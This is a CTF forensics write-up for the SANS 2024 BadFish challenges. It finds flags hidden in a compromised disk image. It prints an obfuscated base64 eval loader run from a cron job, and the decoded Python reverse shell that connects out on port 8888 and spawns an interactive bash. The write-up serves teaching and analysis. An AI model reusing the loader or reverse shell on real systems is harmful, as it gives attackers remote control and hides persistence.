 ```yaml
---
title: 2024 SANS Offensive Operation CTF - BadFish::002-004
date: 2024-02-28T07:00:00-07:00
tags:
  - img
image: 
---
```


### Summary
```
Uh Oh it seems a few bad fish got into the fish tank!

Can you find them all?

Zip Password: bAdFi5h

DISCLAIMER: Flag will start with the number of the challenge it belongs to.

```

### Steps

I first started by mounting the img file.
```bash
sudo mount -o loop,offset=$((2048 * 512)) badfish.img /mnt/bf
```

Next, I started to enumerate the the files and discovered the second flag in /home/nemo/.bashrc.

![](/2024sansctf/badfish002.png)

Moving forward, I discovered the third flag ini the `/usr/bin/` directory as a suspected binary called `3_5tr1nGs_r_BaD_4_f15H`.


![](/2024sansctf/badfish003.png)

The last flag was setup as a cron job and stored in `/tmp/.d/daily.py`

```python
import base64

test = ""
for i in ['YmFzZTY0LmI2NGRlY29kZSgnQ21aeWI=', 'MjBnYjNNZ2FXMXdiM0owSUdSMWNESUs=', 'Wm5KdmJTQnpkV0p3Y205alpYTnpJR2w=', 'dGNHOXlkQ0J5ZFc0S2FXMXdiM0owSUg=', 'TnZZMnRsZEFwelBYTnZZMnRsZEM1emI=', 'Mk5yWlhRb2MyOWphMlYwTGtGR1gwbE8=', 'UlZRc2MyOWphMlYwTGxOUFEwdGZVMVI=', 'U1JVRk5LUXB6TG1OdmJtNWxZM1FvS0M=', 'STBYelZ1TTJGcmVWODFia1ZoYTFraUw=', 'RGc0T0RncEtRcGtkWEF5S0hNdVptbHM=', 'Wlc1dktDa3NNQ2tLWkhWd01paHpMbVo=', 'cGJHVnVieWdwTERFcENtUjFjRElvY3k=', 'NW1hV3hsYm04b0tTd3lLUXB5ZFc0b1c=', 'eUl2WW1sdUwySmhjMmdpTENJdGFTSmQ=', 'S1FvPScp']:
    test = test + base64.b64decode(i).decode()
eval(test)
```

I modified the python script to include `print(test)` when executing it. 
```python
python3 ./daily.py                                                                                  
base64.b64decode('CmZyb20gb3MgaW1wb3J0IGR1cDIKZnJvbSBzdWJwcm9jZXNzIGltcG9ydCBydW4KaW1wb3J0IHNvY2tldApzPXNvY2tldC5zb2NrZXQoc29ja2V0LkFGX0lORVQsc29ja2V0LlNPQ0tfU1RSRUFNKQpzLmNvbm5lY3QoKCI0XzVuM2FreV81bkVha1kiLDg4ODgpKQpkdXAyKHMuZmlsZW5vKCksMCkKZHVwMihzLmZpbGVubygpLDEpCmR1cDIocy5maWxlbm8oKSwyKQpydW4oWyIvYmluL2Jhc2giLCItaSJdKQo=')
```

Base64 decoding that strinig gave me the following reverse shell including the flag.
```python
from os import dup2
from subprocess import run
import socket
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("4_5n3aky_5nEakY",8888))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
run(["/bin/bash","-i"])
```
